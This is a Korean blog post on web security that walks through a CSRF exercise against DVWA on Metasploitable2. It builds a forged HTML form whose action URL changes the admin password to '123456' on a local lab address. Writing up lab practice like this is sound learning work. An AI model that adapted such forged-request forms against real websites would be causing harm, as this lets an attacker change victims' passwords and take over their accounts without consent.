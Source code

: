 ```yaml
---
title:  "DVWA 를 활용한 CSRF 실습"
excerpt: "CSRF (Cross Site Request Forgery : 교차 사이트 요청 위조)"
categories: web-security
tags:
  - [csrf, web-security, metasploitable2, dvwa]

toc: true
toc_sticky: true
 
date: 2022-5-17
last_modified_at: 2022-5-17
---
```


#### CSRF (Cross Site Request Forgery : 교차 사이트 요청 위조)
* * *
- 공격 대상 : webserver
- Client의 권한을 이용해서 위조된 요청을 web server에 보내는 공격
- 대표적인 사례 : 자동 댓글달기, 좋아요 눌러지기, 비밀번호 변경, 회원 탈퇴 요청, 회원 승급 요청 등등
- 사용자들이 원하지 않았지만 스크립트의 소스 안에 공격자의 의도가 포함되어 있는 상태로 웹서버에 요청이 보내짐
- OWASP 2013년 버전에서는 8위였으나, 2017 버전에는 순위 밖으로 내려감(대응 방법이 많이 나와있어서 심각 수준이 내려감)

#### Metsploitable2 DVWA 실습
* * *
1. vwware-> metasploitable2 실행
2. web browser에서 metasploitable2의 아이피로 접근
3. dvwa 실행 admin / password
4. CSRF 탭에서 비밀번호 변경
![picture 12](/assets/images/20220517-092020.png){: .center}  
5. 개발자 도구에서 46~52 라인 확인
![picture 13](/assets/images/20220517-092404.png){: .center}  

```html
<form action="#" method="GET">Current password:<br>
		<input type="password" AUTOCOMPLETE="off" name="password_current"><br>    New password:<br>
    <input type="password" AUTOCOMPLETE="off" name="password_new"><br>
    Confirm new password: <br>
    <input type="password" AUTOCOMPLETE="off" name="password_conf">
    <br>
    <input type="submit" value="Change" name="Change">
</form>
```
6. 비밀번호 변경했을 때 주소를 복사해서 #에 다가 삽입

```html
<form action="http://192.168.5.128/dvwa/vulnerabilities/csrf/?password_current=password&password_new=123456&password_conf=123456&Change=Change#" method="GET">Current password:<br>
		<input type="password" AUTOCOMPLETE="off" name="password_current"><br>    New password:<br>
    <input type="password" AUTOCOMPLETE="off" name="password_new"><br>
    Confirm new password: <br>
    <input type="password" AUTOCOMPLETE="off" name="password_conf">
    <br>
    <input type="submit" value="Change" name="Change">
</form>
```

7. 위 내용을 html 파일로 만들어서 실행.

![picture 14](/assets/images/20220517-093611.png){: .center}

1. change를 누르면 비밀번호 변경되고, 로그인된 상태로 웹사이트로 진입
2. logout 하고 변경된 비밀번호로 로그인 되는지 확인